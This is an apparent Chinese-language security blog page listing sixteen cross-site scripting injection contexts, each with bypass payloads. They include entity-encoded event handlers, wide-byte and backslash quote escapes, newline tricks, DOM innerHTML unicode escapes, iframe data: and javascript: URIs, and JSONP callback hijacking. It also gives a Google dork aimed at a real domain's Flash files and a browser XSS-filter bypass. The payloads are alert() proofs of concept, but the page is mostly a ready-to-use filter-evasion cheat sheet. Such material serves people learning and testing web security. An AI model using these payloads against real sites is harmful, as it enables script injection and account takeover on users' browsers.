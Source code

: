 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS模型
>小贱提示：

```
常规来讲，
onxxxx="[输出]"
href="javascript:[输出]"
<script>[输出]</script>

在script中如果遇到过滤，可考虑eval（'alert（1）'）
三者没有太大区别，因为输出所在的地方都是js脚本
但<script>如果被过滤，往往没有太好的办法，而前两这有个很好的方法：
在html属性中，会自动对实体字符转义，比如
<img src="1" onerror="alert(1)">和
<img src="1" onerror="alert&#x28;1&#x29">等效。
换言之，只要上面的情况，没有过滤&#等，可跨
```

## ![](../img/github14.png)模型1：无过滤
```
<html>输出</html>
<html>......</html>输出<html>......</html>
思路：
直接<script>alert(1)</script>
```
## ![](../img/github15.png)模型2：

>\<script>...[输出]...\</script>\<style>...[输出]...\</script>

思路：
```
闭合前段标签,再<script>alert(1)
如果过滤</>，就eval('alert(1)');void
```
## ![](../img/github16.png)模型3：输出在标签属性里
```
<input value="输出">
<img onload="...[输出]...">
<body style="...[输出]...">
<svg onload=alert(1)>
```
1.无过滤: aaa'' onclick=alert(1)

2.出现在style属性中可
   ;w:expr\\65ssion:eval('alert(1)')
   css的expression浏览器多数淘汰了

3
```
<HTML标签 onXXXX="...[输出]..">
<a href="javascript:.....[输出]">xxxx </a>的方法，
如：
<img src=''#'' onerror=alert(/xss/)>
过滤的话就<img src="1" onerror="alert&#x28;1&#x29;">
如果&#39被过滤，可十六进制&#x27代替
如果在url中还可以把&#用url转码
```
## ![](../img/github17.png)模型4：宽字符
```
<script>和</script>之间：
有过滤引号导致不能闭合
gbxxxx系列编码，可尝试宽字节
%22的引号被过滤，可尝试%c0%22
%c0可以吃掉%5c
```
## ![](../img/github18.png)模型5：反斜杠\
```
<script>和</script>之间：
有过滤引号导致不能闭合
可利用原本的引号，aaaa\就使后面的原本引号变成了我们自己的，但要注意后面的语法，要//注释掉，要不语法错误
另可用/**/代替空格
```
## ![](../img/github19.png)模型6：换行符%0a
```
<script>和</script>之间：
适用于aaa出现在注释中时,
%0aalert(1);//这样就把alert换行,成功执行
```
## ![](../img/github20.png)模型7：宽字符，反斜杠，换行符一起
## ![](../img/github21.png)模型8：dom xss显式输出
```
这种情况下。xxxxx
只能使用 <img src=1 onerror=alert(1)> 这种方式来触发 JS

document.write(''xxxx'')
js中的字符可写成unicode编码
<是\u003c  或 \x3c
>是\u003e  或 \x3e
空格是\u0020
单引号是\u0027或\x27
其实数字还是ascii码
dom举例
document.getElementById(1).innerHTML=''检索: \u003cimg src=1 onerror=alert(1)\u003e'';
```
## ![](../img/github22.png)模型9：dom xss隐式输出
源代码看不到就f12搜索
## ![](../img/github23.png)模型10：dom eval
## ![](../img/github24.png)模型11：dom iframe
```
<iframe src='输出'><iframe>
解题：
1.<iframe onload=''alert(1)''></iframe>
2.<iframe src='javascript:alert(1)'>
   </iframe>
3.<iframe src='vbscript:msgbox(1)'>
   </iframe> (IE下）
4.<iframe src='data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;'>
    </iframe> (chrome下）
5.<iframe src='data:text/html,<script>alert(1)</script>'>
    <iframe>(chrome下）
6.<iframe srcdoc='',&lt;script&gt;alert(1)&lt;/script&gt;''> </iframe> (chrome下）
```
## ![](../img/github25.png)模型12：callback
```
somescript src=''http://../xx?jsonp=callback&id=''+id
场景1：script src=''完全可控''
               直接换js地址
场景2：script src=''/path/路径可控/1.js''
               这种两种方法：
              1，上传文件到同域名下
              2，利用json接口最终变为
               script src=''/../xx.json?callback=alert(1)''
场景3：
script src=''/xx/json.php?callback=xx&param1=yy&param2=可控''
方法类似场景2，param2=xx&callback=alert(1)
可覆盖前面的callback
还可以callback=eval(alert(1))
后面还有参数的话记得;void
```

## ![](../img/github26.png)模型13
```
<script>
setTimeout(''window.location.href='http//../可控';'',2000);</script>
方法1：aa';alert(1);a='
方法2：想办法变成
location.href=''javascript:alert(1)';
a'.replace(/.+/,
/javascript:alert(1)/.source);//
```
## ![](../img/github27.png)模型14 flash xss入门
```
首先要找到flash文件,google dork
1基本语法site:qq.com filetype:swf
2已知存在缺陷的flash文件名或参数名
如swfupload，jwplayer等
3多媒体功能的flash文件名
如upload，player，music，video等
4调用的外部配置或数据文件后缀
如xml，php等
5特征名用词
如callback，cb，function等

举例 site:qq.com filetype:swf inurl:xml
flash具体还是看那些年吧

```
## ![](../img/github28.png)模型15 xss浏览器过滤器绕过(一般方法）
```
要符合两点要求：
1：允许<>
2：缺陷点后方要有</script>
则："><script src=data:,alert(1)<!--
```
## ![](../img/github2.png)模型16 xss存储型




__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
